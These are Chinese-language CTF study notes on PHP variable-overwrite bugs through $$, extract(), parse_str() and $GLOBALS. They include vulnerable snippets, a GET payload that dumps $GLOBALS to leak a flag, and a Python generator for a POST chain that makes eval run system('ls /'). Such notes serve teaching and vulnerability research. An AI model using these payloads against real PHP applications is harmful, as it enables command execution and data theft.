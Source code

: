 ```
$a = 'b';
$b = 'ab';
$$a = 'bc' ;//此时$b会变成bc
```
代码审计搜搜$$
经常导致变量覆盖漏洞场景有：
$$，extract()函数，parse_str()函数，import_request_variables()使用不当，开启了全局变量注册等。

## **extract()**
和parse_str()差不多。
例如：
`extract($_POST);`: 这个函数将 `$_POST` 数组中所有的键值对转换为变量和对应的值。例如，如果 `$_POST['user']` 存在，及POST传参user=xx，那么该函数将创建一个名为 `$user` 的变量，并将其值设置为 `$_POST['user']` 的值xx。

如果传参_SESSION[flag]=123。
那么覆盖只有$_SEESION[flag]=123。

^
```
extract($vars);  配合include $__template_path__;
若$vars传参可控，则可实现任意文件读取。
```

^
## **变量覆盖引出$GLOBALS数组**
$GLOBALS数组中有flag值。
```
function getFlag(&$v1,&$v2){
    eval("$$v1 = &$$v2;");
    var_dump($$v1);
}

 $v1 = $_GET['v1'];
 $v2 = $_GET['v2'];

if(preg_match('/ctfshow/', $v1)){
        getFlag($v1,$v2);
 }



?v1=ctfshow&v2=GLOBALS
类似
$ctfshow=$GLOBALS;
var_dump($ctfshow);
```

^
## **常规变量覆盖**
```
error_reporting(0);
extract($_POST);
eval($$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$_);
highlight_file(__FILE__);
```
```
import string
a='_=a&'
s=string.ascii_letters
code="system('ls /');"
for i in range(35):
    a+=s[i]+"="+s[i+1]+"&"
a+=s[i]+"="+code
print(a)

POST传递：
_=a&a=b&b=......&I=J&J=system('ls /');
```